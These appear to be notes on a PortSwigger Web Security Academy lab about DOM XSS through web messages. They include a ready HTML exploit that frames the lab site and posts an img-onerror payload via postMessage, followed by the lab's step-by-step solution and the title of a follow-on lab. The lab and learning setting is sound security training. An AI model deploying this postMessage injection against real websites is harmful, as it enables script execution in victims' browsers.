 exploit

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 1;
        z-index: 1;
    }
</style>
<iframe src="https://0a1a00ae04a69bd4c0da62eb008700f1.web-security-academy.net" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
				<ol>
					<li>
						Notice that the home page contains an <code>addEventListener()</code> call that listens for a web message.
					</li>
					<li>
						<p>
                            Go to the exploit server and add the following <code>iframe</code> to the body. Remember to add your own lab ID:
                        </p>
					<code class="code-scrollable">&lt;iframe src="https://your-lab-id.web-security-academy.net/" onload="this.contentWindow.postMessage('&lt;img src=1 onerror=print()&gt;','*')"&gt;</code>
					</li>
					<li>
						Store the exploit and deliver it to the victim.
					</li>
				</ol>
				<p>
					When the <code>iframe</code> loads, the <code>postMessage()</code> method sends a web message to the home page. The event listener, which is intended to serve ads, takes the content of the web message and inserts it into the <code>div</code> with the ID <code>ads</code>. However, in this case it inserts our <code>img</code> tag, which contains an invalid <code>src</code> attribute. This throws an error, which causes the <code>onerror</code> event handler to execute our payload.
				</p>
			</div>
        </div>


#### DOM XSS using web messages and a JavaScript URL

> This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 
